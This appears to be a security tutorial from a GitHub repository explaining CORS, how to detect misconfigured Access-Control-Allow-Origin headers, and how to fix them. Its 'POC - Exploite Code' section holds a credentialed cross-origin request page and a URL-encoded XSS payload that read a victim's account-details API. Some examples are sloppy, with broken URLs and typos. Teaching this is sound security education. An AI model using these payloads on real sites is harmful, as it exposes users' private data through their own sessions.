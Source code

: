 # CORS

## Information

Cross-Origin Resource Sharing(CORS) is a mechanism that enables web browsers to perform cross-domain requests using the XMLHttpRequest API in a controlled manner.

Without CORS, websites are restricted to accessing resources from the same origin through what is known as ***same-origin policy***

OWASP TOP 10: A6-Security Misconfiguration vulnerability

## CORS Request

There are two types of CORS requests:
   1. Simple requests
   2. Preflighted requests.

 ### 1. Simple requests
 
**Example:** Web browser sends AJAX **GET** `https:///api.account_detaild` request to `api.mywebsite.com` containing the domain that served the parent page, Consider the below Request.

```
GET /api/account_detaild HTTP/1.1
Host: www.mywebsite.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:60.0) Gecko/20100101 Firefox/60.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: ru,en-US;q=0.7,en;q=0.3
Accept-Encoding: gzip, deflate
Origin: www.mywebsite.com

```
The web client inform to server its source domain using the HTTP request header "Origin". 

You get below response with the **Access-Control-Allow-Origin** header setting. 
```
HTTP/1.1 200 OK
Date: Sat, 16 May 2020 00:2:03 GMT
Content-Type: application/xml
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: www.mywebsite.com 
```
🏁 The header is configured with `Access-Control-Allow-Origin: www.mywebsite.com` It means ***Only***✔️ `www.mywebsite.com` domain can access the resources.

🏴‍☠️ IF header is configured with a wildcard **`( * )`**. It means **Any domain**☢️  can access the resources.
```
HTTP/1.1 200 OK
Date: Sat, 16 May 2020 00:2:03 GMT
Content-Type: application/xml
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: *
```

🏴 IF the server does not allow a cross-origin request then you will get error⚠️ page

 ### 2. Preflighted requests

***Preflight request*** is a CORS request that checks to see IF the CORS protocol is understood and a server is aware using specific methods and headers.

It is OPTIONS method request using three HTTP request headers: `Access-Control-Request-Method`, `Access-Control-Request-Headers` & `Origin` header.

When performing certain types of cross-domain AJAX requests, browser first sends an HTTP request using the OPTIONS method (which is called as "preflight" request) to determine whether they have permission to perform the action or IF the actual request is safe to send. CORS requests are preflighted this way because they may have implications to user data.

**Example:** Browser send request to server and check IF it would allow a DELETE request, before sending a DELETE request, by using a preflight request:
```
OPTIONS /api/account_detaild
Access-Control-Request-Method: DELETE
Access-Control-Request-Headers: origin, x-requested-with
Origin: www.mywebsite.com 
```
IF the server allows this⬆️ request, then it will respond to the preflight request with `Access-Control-Allow-Methods` response header, which lists `DELETE`

```
HTTP/1.1 204 No Content
Access-Control-Allow-Origin: www.mywebsite.com 
Access-Control-Allow-Methods: POST, PUT, OPTIONS, DELETE
Access-Control-Max-Age: 223000
```
🏴 IF the server does not allow a cross-origin request then you will get error⚠️ to the OPTIONS request and the browser will not make the actual request.

## Detect CORS misconfiguration     

Identify Response **Access-Control-Allow-Origin** Header 

1. CORS misconfiguration using wildcards such as (*)
```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: * 
```
2. Origin with Other Domain.
```
Access-Control-Allow-Credentials: true
Access-Control-Allow-Origin: vulnerablesite.com 
```


## POC - Exploite Code
1. Mentioned below is the exploit code to exploit misconfigured ***Simple requests*** CORS

```javascript
<!DOCTYPE html>
<html>
   <head>
      <script>
         function cors() {
            var xhttp = new XMLHttpRequest();
                xhttp.onreadystatechange = function() {
                    if (this.readyState == 4 && this.status == 200) {
                        document.getElementById("emo").innerHTML = alert(this.responseText);
            }
         };
         xhttp.open("GET", "https://www.website.com/api/account_detaild", true);
         xhttp.withCredentials = true;
         xhttp.send();
         }
      </script>
   </head>
   <body>
      <center>
      <h2>CORS - POC Exploit </h2>
      <button type="button" onclick="cors()">Exploit CORS</button>
   </body>
</html>
```

2. You can exploit this misconfiguration CORS using XSS so just replace payload <scropt>**alert(document.domain)**</script> 
    
    - XSS Payload for Exploite CORS:
```javascript
<script>function%20cors(){var%20xhttp=new%20XMLHttpRequest();xhttp.onreadystatechange=function(){if(this.status==200)alert(this.responseText);document.getElementById("demo").innerHTML=this.responseText}};xhttp.open("GET","https://www.website.com/api/account_detaild",true);xhttp.withCredentials=true;xhttp.send()}cors();</script>
```


## Remediation

* Allow only **Trusted domains** `Access-Control-Allow-Origin: <origin>` header.
  
  Example: `Access-Control-Allow-Origin: https://www.mywebsite.com`

* Avoid whitelisting null `Access-Control-Allow-Origin: null`

* CORS defines browser behaviors and is never a replacing for server-side protection of sensitive data - an attacker can directly forge a request from any trusted origin. Therefore, web servers should continue to apply protections over sensitive data such as authentication and session management, in addition to properly configured CORS

## Refrence

- https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS

- https://hackerone.com/reports/470298 

- https://medium.com/bugbountywriteup/think-outside-the-scope-advanced-cors-exploitation-techniques-dad019c68397

- https://www.moesif.com/blog/technical/cors/Authoritative-Guide-to-CORS-Cross-Origin-Resource-Sharing-for-REST-APIs/ 
